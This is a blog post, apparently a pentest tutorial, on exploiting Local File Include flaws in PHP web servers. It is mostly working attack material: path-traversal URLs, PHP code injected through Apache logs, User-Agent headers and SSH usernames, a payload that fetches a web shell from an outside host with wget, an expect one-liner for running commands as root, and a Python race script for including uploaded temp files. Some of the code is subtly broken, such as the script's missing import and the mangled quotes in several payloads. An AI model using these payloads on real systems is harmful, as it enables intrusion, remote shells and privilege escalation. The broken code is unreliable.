 ```yaml
---
layout: post
title:  "Exploiting Local File Includes"
date:   2018-07-27 13:49:33 +0000
tags: [Web Application, pentest, redteam, blueteam]
---
```

![](/blog/assets/padlock.png)

Local File Includes (LFI) is an easy way for an attacker to view files on a server that were not meant to be viewed or retrieved. Through either a mis-configured on the server code or bad programming a would-be attacker can potentially view local Operating System files in the current web-page.

## Exploiting LFI
If you can include files from local application/web server, below is the most basic test for LFI:
```
http://vulnsite.com?exec=aaa/../../../../../etc/passwd
```
This initial test is usually successful as “/etc/passwd’’ file usually as read-world permissions. The application server typically runs as “apache’’ thus denying permission to read “/etc/shadow’’ which usually has stricter permissions. Note: this may be different for IoT devices as they typically run as root!

## Code Execution
Requirements: PHP installed.

There are quite a few nice articles on internet on how one can do code execution from LFI. But essentially, you need php installed and then you try to inject php code into certain files and then try to include these files. These files typically are:
* Apache access logs
* Apache error logs
* /proc/self/environ
* /var/log/apache/error.log

On this occasion the ‘apache’ user had access to read the error logs. So, when you access a URI such as:
```
http://vuln.com/foo%3c%3fphp%20passthru('id')%20%3f%3e
```
It adds the following line to Apache’s error log:
```
404 file not found foo<?php passthru(’id’);?>
```
Now, you can include the error log files and execute the OS code:
```
http://vulnsite.com?exec=aaa/../../../../../usr/local/apache/logs/error_logs%00a
```

## /proc/self/environ
Now lets see if /proc/self/environ is accessible? We replace /etc/passwd with /proc/self/environ
```
www.website.com/view.php?page=../../../../../proc/self/environ
```
If you get something like the below, its highly likely it is exploitable:
```
DOCUMENT_ROOT=/home/sirgod/public_html GATEWAY_INTERFACE=CGI/1.1 HTTP_ACCEPT=text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1 HTTP_COOKIE=PHPSESSID=134cc7261b341231b9594844ac2ad7ac HTTP_HOST=www.website.com HTTP_REFERER=http://www.website.com/index.php?view=../../../../../../etc/passwd HTTP_USER_AGENT=Opera/9.80 (Windows NT 5.1; U; en) Presto/2.2.15 Version/10.00 PATH=/bin:/usr/bin QUERY_STRING=view=..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron REDIRECT_STATUS=200 REMOTE_ADDR=6x.1xx.4x.1xx REMOTE_PORT=35665 REQUEST_METHOD=GET REQUEST_URI=/index.php?view=..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron SCRIPT_FILENAME=/home/sirgod/public_html/index.php SCRIPT_NAME=/index.php SERVER_ADDR=1xx.1xx.1xx.6x SERVER_ADMIN=webmaster@website.com SERVER_NAME=www.website.com SERVER_PORT=80 SERVER_PROTOCOL=HTTP/1.0 SERVER_SIGNATURE=
Apache/1.3.37 (Unix) mod_ssl/2.2.11 OpenSSL/0.9.8i DAV/2 mod_auth_passthrough/2.1 mod_bwlimited/1.4 FrontPage/5.0.2.2635 Server at www.website.com Port 80
```
If you got a blank page or an error? /proc/self/environ is not accessible or the OS is likely FreeBSD and not vulnerable to this particular attack.

Now let’s inject our malicious code in proc/self/environ.How we can do that?We can inject our code in User-Agent HTTP Header.

Use Tamper Data Addon for Firefox to change the User-Agent, (or equally another intercepting proxy).
```
<?system(‘wget http://vuln.com/Shells/gny.txt -O shell.php’);?>
```
Start Tamper Data in Firefox and request the LFI similar to (you will have to adapt the URL for your vulnerable website):
```
www.website.com/view.php?page=../../../../../proc/self/environ
```
A PHP-shell should then be available at:
```
www.website.com/shell.php
SSH and /var/log/auth.log
ssh “<?php echo system($_GET[“cmd”]);exit;?>”@example.com
Code should be stored in “/var/log/auth.log’’.
```
Include this log file (“/var/log/auth.log’’) for the win!

## Getting Root
If you are lucky enough to find a password in a clear text file, how could you exploit this?….

After researching the idea, we thought of a way to use “expect’’ with the following 1 line of php script:
```
<?php passthru(‘echo -e \’#!/usr/bin/expect -f\nset password [lrange $argv 0 0]; set cmd [lrange $argv 1 1];set timeout -1; spawn su -c “$cmd” ;
match_max 100000 ;expect “*?assword:*”; send — “$password\r”; send — “\r”; expect eof\’>/tmp/su.exp&/usr/bin/expect /tmp/su.exp passw0rd whoami>>/tmp/out.txt’);?>
```
This script will do the following:
* create an expect script(/tmp/su.exp) which will take the root (su) password and command to execute as argument.
* run the expect script with the root password and command to run as root.

## Getting Root 2
An LFI vulnerability on a pentest once revealed server logs, and “auth.log” was world readable!

By default, OpenSSH makes an entry (consisting of the user name and other data) to auth.log for every authentication attempt made to the ssh daemon. Knowing this, I did some quick testing and found that I could inject php code into auth.log from the user name field of an ssh client by attempting to authenticate. The command took some time to get working right as bash requires finesse for processing special characters, but after some troubleshooting, I came up with the following:
```
<?php echo system($_GET[“cmd”]);exit;?>’@<host>
```
One issue we encountered is that OpenSSH makes 2 entries containing the user name to auth.log for every authentication attempt. In the following example, only one authentication attempt was made, but, as you can see, it appears in the log 2x times.
```
May 10 21:26:57 host sshd[17594]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=host.localdomain user=
<?php echo system($_GET[“cmd”]);exit;?>
May 10 21:26:59 host sshd[17592]: error: PAM: Authentication failure for
<?php echo system($_GET[“cmd”]);exit;?> from host.localdomain
```
The injected command will run three unless php execution is terminated after the first command. We did this above with the exit; command. The unfortunate side effect is that you have one chance to get this right. Otherwise, you have to wait until the log cycles before you can make another attempt. Here is what the final product looked like with the addition of a pre-format tag:
```
http://<host>/index.php?page=../../../../var/log/auth.log?cmd=ls+-lh+/var/log
total 14M
drwxr-xr-x 2 root root 4.0K Apr 2 20:53 ConsoleKit
-rw-r — r — 1 root user 15K May 10 17:03 Xorg.0.log
-rw-r — r — 1 root user 15K May 10 16:00 Xorg.0.log.old
-rw-r — r — 1 root user 7.4K Aug 10 2009 Xorg.6.log
-rw-r — r — 1 root user 7.4K Aug 10 2009 Xorg.6.log.old
drwxr-xr-x 2 apache apache 4.0K May 8 03:10 apache2
…
```
## Abusing tmp
So the plan is to:

Upload a file and trigger a self-inclusion.
Repeat step-1 many times to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0–9a-zA-Z]{6}

Enjoy our shell.

```
import itertools
import requests
import sys
print(‘[+] Trying to win the race’)
f = {‘file’: open(‘shell.php’, ‘rb’)}
for _ in range(4096 * 4096):
 requests.post(‘http://target.com/index.php?c=index.php', f)
print(‘[+] Bruteforcing the inclusion’)
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
 url = ‘http://target.com/index.php?c=/tmp/php' + fname
 r = requests.get(url)
 if ‘load average’ in r.text: # <?php echo system(‘uptime’);
 print(‘[+] We have got a shell: ‘ + url)
 sys.exit(0)
print(‘[x] Something went wrong, please try again’)
```
